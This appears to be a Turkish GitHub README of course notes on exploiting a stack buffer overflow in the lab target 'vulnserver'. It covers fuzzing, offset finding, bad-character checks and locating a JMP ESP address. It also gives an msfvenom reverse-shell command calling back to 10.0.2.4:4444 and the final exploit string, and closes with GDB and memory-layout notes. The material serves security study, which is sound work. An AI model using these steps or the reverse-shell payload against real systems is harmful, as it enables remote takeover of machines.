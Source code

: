 # Atıl Samancıoğlu Etik Hackerlik Python Kursunun Buffer Overflow kısmının notlarıdır! "vulnserver" kullanılmıştır.
# https://www.udemy.com/course/python-sifirdan-ileri-seviyeye/
# Buffer-Overflow-Notes
1 -  İlk önce kali üzerinde bulunan <b>generic_send_tcp</b> komutunu kullanarak ve bir spike dosyası oluşturarak, hizmetteki herhangi bir komutta buffer overflow olup olmadığını kontrol edecek  bir istek gönderiyoruz.

"generic_send_tcp" Kali'de buffer overflow fuzzing için kullanılır. Sunucular içindir ve bir <b>"spike"</b> dosyasına ihtiyaç duyar. 

Spike dosyası kod listesidir. Programın hangi komut veya instruction üzerine fuzzing deneyeceğini belirlemek için yazılır. Basit bir dildir.<br>
Örneğin:<br>
```
s_readline();
s_string("STATS ");
s_string_variable("A");
```
Örnek komut:
```
generic_send_tcp 10.0.2.15 9999 fuzz.spk 0 0
```
Sunucu çöktükten ve çöktüğüne emin olduktan sonra nerde çökertebildiğimizi bulabilmek için <b>Manual Fuzzing</b> yapmamız gerekmekte.
1. Adım için paylaştığım kodu düzenleyip çalıştırdıktan sonra sunucu çöktüğünde CTRL+C yapıyoruz. Ve bize "<b>tahminen</b>" nerede çöktüğünü gösteriyor. Değerleri kod içerisinde sürekli 100 ile arttırdığımız için kesin bir yer bulması mümkün değil. Bunun için bir sonraki adıma geçiyoruz.

NOT: TRUN'dan sonraki dize paket debugger'de izlenerek bulunmuştur.

NOT: TRUN bu sunucuya özeldir.

2 <b>-/usr/share/metasploit-framework/tools/exploit/pattern_create.rb</b> -> Fuzzing ile kaç karakterde çöktüğünü bulduktan sonra o değere yakın bir değerde pattern üretmek için.

Çöken değere yakın bir değer ile bir pattern üretiyoruz.  Eğer 2300de çöktüysek,
```
./pattern_create.rb -l 2500
```
Pattern'i 2. adımdaki kod ile gönderiyoruz.  Sunucu çöktükten sonra, Debugger üzerinde EIP'ye yazılan karakterlerin hex değerlerini not ediyoruz.

3 -```└─# ./pattern_offset.rb -l 2500 -q 386F4337```
"-l" değeri payload'ın uzunluğu, "-q" değeri EIP'ye yazılan değer.

Çıktıdan kaçıncı karakterde çöktüğünün bilgisini alıyoruz.

4 - Test: Paylaştığım kodda, çökerten karakter sayısı kadar "A", ve cidden yazılıp yazılmadığını denemek için 4 adet "B" gönderiyoruz. Hexadecimal üzerinde "42" olarak ifade edilen B değerinin Debugger'da EIP değerine yazıldığını görüyoruz.

5 - Test 2 - Bad Chars: Sunucunun okuyamadığı veya engellediği herhangi bir "bad character" olup olmadığını öğrenmek için, ekte paylaştığım kodu kullanıyoruz. Debugger üzerinden ESP'yi dump edip HEX sırasını takip ve kontrol ettiğimizde bir bozulma olmadığına emin olmamız gerekiyor. Bozulma olan karakterler "bad characters" olarak not edilir.

6- Exploit Plan: 
6.1.: EIP'de bizim enjekte etmeye çalıştığımız shellkoda nasıl yönlendirme yapabiliriz, kodumuzu nasıl yerleştirebiliriz, bunun için bir aratma yapmamız gerekiyor. Bir gerçek hayat senaryosunda birden çok seçenek denememiz gerekebilir. Genelde "JMP ESP" kullanılır. Atlama yapmaya yarar.

Kaynak: <a href="https://www.abatchy.com/2017/05/jumping-to-shellcode.html">shellcode jumping</a>

6.1.1: Metasploit içerisinde bulunan nasm_shell.rb ile kodumuzu assembly'e çevirmemiz gerekiyor.
```
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```
"FFE4" değerini not ediyoruz.

6.1.2: Ben Immunity Debugger kullanmayı tercih ediyorum, Immunity için "Mona" adlı bir plugine ihtiyacımız olacak. Kurduktan ve sunucuyu çalıştırıp "Attach" ettikten sonra, bize kullanılan tüm modülleri ve bu modüllerin okuma/yazma'ya karşı korumalı olup olmadığını göstermesi için ```!mona modules``` komutunu Immunity üzerinden çalıştırıyoruz. 

Bu kısımda memory write koruması kapalı modüllerden birini seçiyoruz. Bu bizim senaryomuzda "essfunc.dll"

![image](https://user-images.githubusercontent.com/88983987/215236883-8aebe4f1-8e1b-459c-906e-982b449eeace.png)

Bu modül üzerinde yazma koruması yok. Bu modül üzerinde exploit çalıştırabiliriz. Modül içerisinde yazma yapabileceğimiz "JMP ESP" komutunu aratmamız gerekiyor. "nasm_shell" ile dönüştürdüğümüz kodu hex formatına dönüştürüp modül içerisinde aratıyoruz.
```
!mona find -s "\xff\xe4" -m essfunc.dll
```
"JMP ESP" işlemi çalıştırılan memory adress'leri not alıp tek tek deniyoruz. Bizim senaryomuzda çalışan memory adress: 0x625011AF

7. Exploit:

Exploit için öncelilkle bir reverse shell koduna ihtiyacımız var.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
```
"-p": Payload Türü
"LHOST": Geri Dönüş Sağlanacak Sunucu
"LPORT": Geri Dönüş Sağlanacak Sunucunun Portu
"EXITFUNC": Thread Process
"-f": C dilinde derlenmesi
"-a": Architecture
"-b": Bad Characters
```

Shell kodunu ürettikten sonra karşı tarafa yollamak kalıyor. Eklediğim exploit scripti bu işlemi yapıyor. Satırları açıklamam gerekirse:
```
stringToSend = "TRUN /.:/" + "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + payload
```

```
"TRUN /.:/" + "A" * 2003 # Çökertecek kadar kod yolla
"\xaf\x11\x50\x62" # JMP ESP -> Kodumu Çalıştır
"\x90" * 32 # NOP Code
"payload" -> MSFVenom ile ürettiğimiz payload
```
# GDB
```
● disassemble main - look at the assembly code of the main function
 ● break *0x12345678 - set a breakpoint at address 0x12345678
 ● x 0x12345678 - examine/print the content of address 0x12345678
 ● x/xw 0x12345678 - print the content of address 0x12345678 as hex word
 ● x/s 0x12345678 - print the content of address 0x12345678 as a string
 ● run - run/restart the program you are debugging
 ● continue - continue execution after you stopped at a breakpoint
 ● quit - exit gdb
 ```
 
# General
HEAP

STACK
Yerel değişkenler, fonksiyonlar içerisinde yapılan işlemler kaydedilir. Ram kaç GB olursa olsun, işletim sisteminin mimarisine göre belirli bir yer ayrılır. Stack bu limiti aşamaz. 

DATA
Global değişkenler ve statik değişkenler kaydedilir. Yaşam döngüsüne bağlı kalmayan değişkenlerdir.

TEXT
Assembly Instructions

int x; -> Local Değişken, Stack
int *y;
(int*)malloc(sizeof(int)); -> Heapte bir yer aç ve adres ata. Stack içerisinde sadece adresi tutulur. malloc yer ayırma fonksiyonudur. sizeof int'in boyutunu alır ve malloc ile int'in boyutu kadar bir yer ayırır.

Extended Stack Pointer
Buffer
Extended Base Pointer
Extended Instruction Pointer -> SCOPE
